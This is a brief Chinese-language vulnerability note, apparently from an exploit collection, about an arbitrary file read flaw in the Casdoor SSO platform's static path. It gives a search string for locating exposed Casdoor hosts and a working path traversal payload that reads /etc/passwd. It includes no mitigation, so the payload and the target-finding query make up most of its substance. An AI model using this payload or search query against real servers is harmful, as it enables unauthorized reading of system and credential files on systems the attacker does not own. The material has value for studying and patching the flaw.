



Casbin casdoor static 任意文件读取漏洞¶
漏洞描述¶
Casdoor 是 Casbin 开源社区推出的基于 OAuth 2.0 / OIDC 的中心化的单点登录（SSO）身份验证平台。
Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件。
漏洞影响¶
Casdoor
网络测绘¶
title="Casdoor"
漏洞复现¶
登陆页面

或者

poc
/static/../../../../../../../../../../../etc/passwd
